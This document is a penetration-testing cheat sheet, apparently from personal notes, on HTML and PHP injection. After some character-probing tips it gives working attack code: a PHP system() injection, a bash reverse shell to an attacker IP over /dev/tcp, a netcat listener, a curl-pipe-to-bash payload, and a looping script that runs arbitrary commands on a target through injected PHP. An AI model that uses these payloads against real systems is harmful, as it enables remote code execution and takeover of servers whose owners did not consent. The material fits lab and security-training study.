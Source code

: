 # HTML Injection



## HTML Injection Enumeration

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```
< >; ' " { } ;
```

* < >; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript
* \<?php = PHP code
* ?> = end of PHP code

**If these characters are not removed or encoded then the website might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use these special characters!**

Test HTML tags in input fields:

```markup
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Test malicious code in other languages (e.g PHP)

```php
<?php system("whoami"); ?>
```

## Reverse Shell via PHP Injection

Create an index.html file in your webroot directory that actually executes bash code:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.28/443 0>&1
```

Set a listener on a port of your choosing:

```
nc -lvnp 443
```

Inject a malicious PHP code:

```php
<?php system("curl 10.10.14.28 | bash"); ?>
```

### Fake Shell via Continous PHP Injection

The following code enters in a while loop to execute the commands and we use **read **to parse the output:

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```

The script above was made by S4vitar.

Things to keep in mind:

* Cookie = You don't need a cookie if you don't have to be authenticated.
* \-G = This sends a GET request and the content in the URL.
* grep = If you don't need to filter the output, then you may remove the grep commands.
